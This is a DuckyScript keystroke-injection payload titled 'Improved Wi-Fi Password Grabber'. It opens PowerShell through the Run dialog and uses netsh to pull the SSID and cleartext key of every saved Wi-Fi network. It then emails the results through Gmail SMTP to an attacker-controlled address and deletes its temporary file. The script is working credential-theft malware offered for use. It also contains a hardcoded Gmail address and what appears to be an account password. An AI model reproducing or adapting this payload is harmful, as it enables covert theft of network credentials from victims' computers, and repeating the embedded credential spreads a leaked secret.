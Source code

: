 `REM Title       : Improved Wi-Fi Password Grabber`
`REM Author      : Jacob Collins`
`REM Version     : 3`
`REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.`
`REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!).`
`REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps`
`DELAY 1000`
`REM --------> Open the run dialog`
`GUI r`
`DELAY 500`
`REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.`
`STRING cmd /c powershell && exit`
`DELAY 500`
`Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com`
`STRING $out=((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":");$i=0;ForEach($line in $out){if($i -eq "1") {(netsh wlan show profile $line.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$i++}else{$i=1}};$SMTPServer="smtp.gmail.com";$SMTPInfo=New-Object Net.Mail.SmtpClient($SmtpServer,587);$SMTPInfo.EnableSsl=$true;$SMTPInfo.Credentials=New-Object System.Net.NetworkCredential("jacrb2002@gmail.com","db1ae01b2a4dab12");$ReportEmail=New-Object System.Net.Mail.MailMessage;$ReportEmail.From="jacrb2002@gmail.com";$ReportEmail.To.Add("jacrb2002@gmail.com");$ReportEmail.Subject=($env:UserName+"@"+$env:UserDomain);$ReportEmail.Body=(Get-Content a|out-string);$SMTPInfo.Send($ReportEmail);rm a;exit`